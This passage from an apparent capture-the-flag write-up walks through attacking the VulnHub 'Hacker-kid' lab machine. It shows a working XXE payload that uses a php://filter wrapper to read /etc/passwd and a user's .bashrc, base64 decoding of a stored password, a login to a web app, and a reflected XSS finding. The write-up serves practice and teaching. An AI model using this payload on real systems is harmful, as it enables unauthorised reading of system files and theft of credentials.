 **We also found system user `saket` from the content of `/etc/passwd`:**
```shell
root:x:0:0:root:/root:/bin/bash
[...]
saket:x:1000:1000:Ubuntu,,,:/home/saket:/bin/bash
[...]
```

According to the hint in the `page_no` GET parameter, it said: "Out of my many homes...one such home..one such home for me", **maybe we can read user `saket`'s `.bash_history` or `.bashrc`??**

**To do so, we can use PHP wrapper's `php://filter` to base64 encode the content:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=file:///home/saket/.bashrc'>]>
<root>
    <name>siunam</name>
    <tel>123456789</tel>
    <email>&xxe;</email>
    <password>password</password>
</root>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817182751.png)

**Base64 decoded:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|18:29:07(HKT)]
└> nano saket_bashrc.b64 
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|18:29:25(HKT)]
└> base64 -d saket_bashrc.b64 > saket_bashrc
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|18:29:38(HKT)]
└> tail -n 3 saket_bashrc
#Setting Password for running python app
username="admin"
password="{Redacted}"
```

Nice! We found a credential for the Python web application (TCP port 9999)!

**Let's login to that account!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817183051.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817183309.png)

Uhh?? Still wrong?

**Maybe the username is `saket`??**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817183334.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817183347.png)

It is!

After logged in, it says: "Tell me your name buddy".

**Hmm... What if I provide a GET parameter called `name`??**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817183439.png)

It worked, and the name got reflected.

We can get reflected XSS (Cross-Site Scripting) in here, but it's useless in this case:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817183549.png)
